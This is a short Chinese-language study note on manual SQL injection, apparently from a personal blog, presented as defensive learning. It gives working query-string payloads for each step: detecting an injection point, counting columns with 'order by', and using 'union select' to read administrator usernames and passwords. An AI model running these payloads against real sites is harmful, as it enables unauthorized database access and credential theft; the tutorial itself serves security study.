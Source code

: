 ```yaml
---
title: 【笔记】SQL Injection 注入攻击
categories:
  - Penetration Tests
date: 2020-03-27 23:46:23
---
```


## 前言

SQL注入攻击入门学习笔记

<font color="red">本文仅用于网络信息防御学习</font>

<!-- more -->

## 本质

- 攻击者通过构造不同的SQL语句来实现对数据库的操作

## 条件

1. 参数用户可控

2. 参数带入数据库查询

## SQL手注的一般流程

### 判断注入点

- 通过sql语句的boolean值，查看返回页面的现实状态，如果出现异常，则有可能存在sql注入

``` sql
?id=1 and 1=1
?id=1 and 1=2
```

### 判断字段数

- 利用`order by`排序语句，依次排序每个字段（通过编号），直到报错，则报错的前一个数为数据库字段数

``` sql
?id=1 order by 1;
?id=1 order by 2;
?id=1 order by 3;
```

### 判断回显点

- 通过查看临时的数据，查看网页返回数据后显示的内容位置，来判断回显点

``` sql
?id=1 union select 1,2 from admin;
```

### 查询相关内容

- 将查看回显点改为查看管理员用户名和密码

``` sql
?id=1 union select username,password from admin;
```

## 完成

## 参考文献

[哔哩哔哩——腾讯掌控安全学院](https://www.bilibili.com/video/BV1qt41157pF)

